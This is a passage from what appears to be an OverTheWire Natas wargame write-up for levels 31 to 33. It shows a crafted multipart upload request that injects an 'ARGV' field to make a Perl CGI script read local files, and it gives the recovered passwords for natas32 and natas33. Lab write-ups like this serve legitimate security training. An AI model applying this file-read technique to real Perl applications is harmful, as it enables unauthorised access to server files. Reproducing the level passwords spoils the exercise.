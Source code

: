 ```python
Referer: http://natas31.natas.labs.overthewire.org/index.pl
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Connection: close

------WebKitFormBoundaryzI73FVSf9Ocjjgr7
Content-Disposition: form-data; name="file";

ARGV
------WebKitFormBoundaryzI73FVSf9Ocjjgr7
Content-Disposition: form-data; name="file"; filename="password"

aaa

------WebKitFormBoundaryzI73FVSf9Ocjjgr7
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryzI73FVSf9Ocjjgr7--
```

natas32:no1vohsheCaiv3ieH4em1ahchisainge

### lvl 32-33

This is done similar to above level

natas33:shoogeiGa2yee3de6Aex8uaXeech5eey